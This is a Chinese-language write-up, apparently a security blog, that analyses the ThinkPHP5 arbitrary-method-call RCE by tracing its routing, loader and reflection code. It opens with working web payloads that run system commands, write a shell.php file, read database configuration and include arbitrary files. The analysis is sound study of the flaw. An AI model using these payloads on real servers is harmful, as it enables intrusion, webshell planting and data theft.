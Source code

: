 # ThinkPHP5任意方法调用RCE

>   参考链接：[Mochazz/ThinkPHP-Vuln/]([https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B9%8B%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB7.md](https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B9%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C9.md))
>
>   影响版本：**5.0.7<=ThinkPHP5<=5.0.22 、5.1.0<=ThinkPHP<=5.1.30**
>
>   测试环境：PHP7.3.4、Mysql5.7.26、TP5.0.18
>
>   **5.1.x** ：
>
>   ```
>   ?s=index/\think\Request/input&filter[]=system&data=pwd
>   ?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
>   ?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
>   ?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
>   ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
>   ```
>
>   **5.0.x** ：
>
>   ```
>   ?s=index/think\config/get&name=database.username # 获取配置信息
>   ?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
>   ?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
>   ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
>   ```

本文以`?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami`

为例。

相信很多人在不懂原理的情况下，看这一串payload是感觉很nb的一个paylaod（因为它长，需要的参数多），像我本人之前就纳闷这payload中为啥还会有反斜杠，s参数名是啥？invokefunction是啥？这个think\app是个啥东西呀为啥为啥。可是当时只看得懂system(whoami)😂。接下来就从代码中找到这些答案。

==只想看结果请直接跳到：==

## 0x00 从?s=是个啥开始

在application\config.php#78行，有一个var_pathinfo键的值默认就是s，而该项的注释是`PATHINFO变量名 用于兼容模式`。那么什么是PATHINFO？什么是兼容模式？

在源码中遇到不知道的定义，大可以全局搜索它在哪里定义，哪里用到了它：

![image-20220419160647401](ThinkPHP5漏洞分析之代码执行(七).assets/image-20220419160647401.png)

来到thinkphp\library\think\Request.php#pathinfo()来阅读var_pathinfo的使用。

![image-20220419161105887](ThinkPHP5漏洞分析之代码执行(七).assets/image-20220419161105887.png)

可以看到在390行用Config::get获取了var_pathinfo的值，也就是s，然后就变成了``$_GET[s]`，获取到值赋值给`$_SERVER['PATH_INFO']`，然后下面407行去除了最左边的正斜杠。那么现在就明白了。s就是用来获取payload中的`index/\think\app/invokefunction`这部分的，它也叫做兼容模式参数，而它的值在tp里面就作为pathinfo。pathinfo后来又会怎么处理呢？继续跟着程序执行流程

在thinkphp\library\think\Route.php#check()

![image-20220419162000264](ThinkPHP5漏洞分析之代码执行(七).assets/image-20220419162000264.png)

其中，$url实际上传入的就是刚才的pathinfo的值。注意到839行把所有的`/`都替换为了`|`。那么现在就是

`index|\think\app|invokefunction`这个样子。但是因为没有定义好的路由规则，最后还是return了false。在thinkphp\library\think\App.php#642:

![image-20220419162556069](ThinkPHP5漏洞分析之代码执行(七).assets/image-20220419162556069.png)

可以看到，如果没有定义好路由规则，也就是刚才的return了false，并且还有强制路由的话就会抛出错误。但是这个漏洞利用条件之一就是不开启强制路由~。

那么再往下走，就会到thinkphp\library\think\Route.php#parseUrl来解析那个`pathinfo`。我想这应该就是所谓的兼容模式了。

## 0x01 模型/控制器/方法的处理



在parseUrl方法中也会把正斜杠替换为|来处理`index/\think\app/invokefunction`（为了方便下面以url替换这串）

但是与之前的check方法不同的是，它紧接着调用了parseUrlPath()方法。

![image-20220419163335378](ThinkPHP5漏洞分析之代码执行(七).assets/image-20220419163335378.png)

在parseUrlPath()方法中，用`$path = explode('/', $url);`来把这个url给处理为了一个数组。：

![image-20220419163613050](ThinkPHP5漏洞分析之代码执行(七).assets/image-20220419163613050.png)

这样实际上就是分成了模型、控制器、方法了。最终逐个获取的位置是parseUrl方法的：

## ![image-20220419163858205](ThinkPHP5漏洞分析之代码执行(七).assets/image-20220419163858205.png)0x02 漏洞原因

当程序执行到thinkphp\library\think\App.php#exec()，会进入到module分支，来到module方法，在：

![image-20220419164634285](ThinkPHP5漏洞分析之代码执行(七).assets/image-20220419164634285.png)

这里的$result数组实际上就是刚才parseUrl返回的那个“$path数组”，

![image-20220419163613050](ThinkPHP5漏洞分析之代码执行(七).assets/image-20220419163613050.png)

1=>控制器，2=>操作名（也叫做方法名）。在这里获取了之后，程序没有再对控制器、方法名过滤导致了任意控制器下任意方法的调用。（但实际上并不是很任意。。）

紧接着就会使用加载器

```php
$instance = Loader::controller(
                $controller,
                $config['url_controller_layer'],
                $config['controller_suffix'],
                $config['empty_controller']
            );
```

加载\think\app了，在thinkphp\library\think\Loader.php#controller

![image-20220419165203092](ThinkPHP5漏洞分析之代码执行(七).assets/image-20220419165203092.png)

然后在invokeClass方法中：

![image-20220419165256848](ThinkPHP5漏洞分析之代码执行(七).assets/image-20220419165256848.png)

使用反射来获取了think\App的一个指针？句柄？反正$reflect现在已经代表这个类了。 。。然后用：

![image-20220419165635171](ThinkPHP5漏洞分析之代码执行(七).assets/image-20220419165635171.png)

来实例化。，返回到了$instance变量中，这时控制器这块已经基本上处理完了，think\App实际上就是thinkphp\library\think\App.php这个php文件里的App类（在MVC架构中，某些类也是可以叫做控制器），think是一个命名空间。意思就是think命名空间下的都是thinkphp的核心代码。命名空间的概念百度一下就知道了。

接下来就是获取方法，调用反射执行类的方法。App类里的invokefunction方法如下：

```php
    /**
     * 执行函数或者闭包方法 支持参数调用
     * @access public
     * @param string|array|\Closure $function 函数或者闭包
     * @param array                 $vars     变量
     * @return mixed
     */
    public static function invokeFunction($function, $vars = [])
    {
        $reflect = new \ReflectionFunction($function);
        $args    = self::bindParams($reflect, $vars);
        // 记录执行信息
        self::$debug && Log::record('[ RUN ] ' . $reflect->__toString(), 'info');

        return $reflect->invokeArgs($args);
    }
```

最后return的时候调用了invokeArgs，在手册中解释如下：

![image-20220419171539267](ThinkPHP5漏洞分析之代码执行(七).assets/image-20220419171539267.png)

很明确它是能调用带参函数的。

总体流程如下：使用反射执行了App里的invokeFunction，并给其传入了参数1：`function=call_user_func_array`，参数2：`vars[]=system&vars[1][]=whoami`。

它会执行`call_user_func_array('system', ['whoami'])`，也就是system('whoami')。执行了命令。

## 0x03 参数的获取？

使用的是bindParams方法获取的参数，参数名必须还得是这特定值，为啥呢？

因为bindParams方法中会用getParameters（ReflectionFunctionAbstract::getParameters）获取反射对象的每一个参数，返回参数列表。
